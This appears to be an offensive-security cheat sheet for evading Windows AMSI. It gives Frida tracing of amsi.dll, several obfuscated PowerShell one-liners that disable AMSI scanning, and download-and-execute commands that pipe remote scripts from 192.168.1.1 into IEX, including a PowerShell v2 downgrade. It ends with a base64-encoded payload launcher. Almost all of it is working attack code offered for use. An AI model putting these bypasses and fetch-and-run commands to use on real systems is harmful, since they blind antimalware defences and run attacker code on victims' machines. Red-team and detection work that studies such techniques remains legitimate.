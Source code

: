 
Hooking with Frida

```shell
frida-trace -p 3532 -x amsi.dll -i Amsi*
```

Bypasses

```powershell
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('ams'+'iInitFailed','NonPublic,Static').SetValue($null,$true)
```

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1);
```

```powershell
$ananas=[Ref].Assembly.GetTypes();Foreach($banana in $ananas) {if ($banana.Name -like "*iU"+"tils") {$cherry=$banana}};$py=$cherry.GetFields('NonPublic,Static');Foreach($ello in $py) {if ($ello.
Name -like "*Context") {$ll=$ello}};$j=$ll.GetValue($null);[IntPtr]$ptr=$j;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1);
```

Inject AMSI bypass remotely

```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/amsi.txt') | IEX
```

PowerShell v2 (no amsi)

```powershell
powershell -version 2 -command "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.1/run.txt')"
```

WinDbg

```plaintext
lm m amsi (check if amsi module is loaded)
```

```plaintext
sxe ld amsi (breakpoint on loading of amsi module)
```

---

## Execute

---

Powershell one-liner (base64 payload)

```powershell
$text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/run.txt') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText

powershell -enc KAB...
```
